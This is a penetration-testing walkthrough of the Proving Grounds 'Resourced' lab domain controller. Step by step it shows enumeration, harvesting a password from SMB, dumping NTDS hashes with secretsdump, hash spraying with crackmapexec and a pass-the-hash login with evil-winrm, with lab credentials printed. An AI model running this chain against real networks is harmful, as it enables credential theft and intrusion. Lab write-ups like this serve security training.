```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.218.175
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-03 16:38 IST
Nmap scan report for 192.168.218.175
Host is up (0.059s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49693/tcp open  unknown
49708/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49666,49668,49674,49675,49693,49708 192.168.218.175
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-03 16:40 IST
Nmap scan report for 192.168.218.175
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-03 11:10:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
| Not valid before: 2026-04-02T11:06:33
|_Not valid after:  2026-10-02T11:06:33
|_ssl-date: 2026-04-03T11:12:11+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: resourced
|   NetBIOS_Domain_Name: resourced
|   NetBIOS_Computer_Name: RESOURCEDC
|   DNS_Domain_Name: resourced.local
|   DNS_Computer_Name: ResourceDC.resourced.local
|   DNS_Tree_Name: resourced.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-03T11:11:31+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESOURCEDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-03T11:11:33
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.82 seconds
```

Port 135 — Microsoft RPC

I discuss this a bit in my walkthough of [Quackerjack](https://medium.com/@Dpsypher/proving-grounds-practice-quackerjack-373b0e4255e5). We can use RPCclient for queries.

```sh
rpcclient -N $IP -U ""
```



This is an ideal outcome, pure gold. Now we have a list of Domain Username for our notes.

Ports 139,445 — SMB and/or Remote Management (especially with port 5985 which is also present.)

First I use enum4linux.

```sh
enum4linux $IP
```

We get a wealth of data back from this command that includes the usernames, as well as, some descriptions — one of which contains a password. We can add the credentials to our notes.



`V.Ventz : HotelCalifornia194!`

Also should we try to crack passwords or do a password spray, we get the password policy.



Now for smbclient:



This may be only for Remote Management but I suppose we could check for shares with our new credentials.



This is definitely set up for remote management, but also what is that Password Audit share?

```sh
smbclient \\\\192.168.218.175\\'Password Audit' -U V.Ventz  #Remeber to give quotes if there is space between shares or directories in shares
```






**HERE, WE CAN USE `timeout` command if the files are too big to download.**
```sh
help timeout     # After getting SMB access
timeout 100
```

Amazingly, we were able to get all those files. Now we see if they are useful. We’ll use impacket-secretsdump.

```sh
python3 /opt/impacket/examples/secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```



To filter out just the hashes I’m going to paste this section in a text document called ‘hashes’.



Then we can filter it for easy a copy/paste into [crackstation](https://crackstation.net/) by catting the hashes file and piping the output into a cut command where the delimiter is a colon ( : ) and only displaying field number 4.

```sh
cat hashes.txt | cut -d : -f 4
```



The first two crack but the rest do not.



Those are administrator and guest. We can add this to our notes.

`Administrator : ItachiUchiha888`

Also keep in mind, we may be able to use any of these hashes to get access to the box, so long as, they are a valid user _and_ that user is part of the Remote Management group. Let’s check by adding all the names to a file called names.txt and changing the contents of our hashes file to contain _only_ hashes. Then we will use both names.txt and our revised hashes file with crackmapexec.

```sh
cat hashes.txt | cut -d : -f 1 > usernames.txt

cat hashes.txt | cut -d : -f 4 > revised_hashes.txt
```



Finally the command:

```sh
crackmapexec winrm 192.168.218.175 -u usernames.txt -H revised_hashes.txt
```





Okay, we got a valid one. Let’s remote.

`L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808`

```sh
evil-winrm -i 192.168.218.175 -u L.Livingstone -H '19a3a7550ce8c505c2d46b5e39d6f808'
```





Reference link :

https://medium.com/@ardian.danny/oscp-practice-series-65-proving-grounds-resourced-05eb9a129e28

https://medium.com/@Dpsypher/proving-grounds-practice-resourced-b3a50d40664b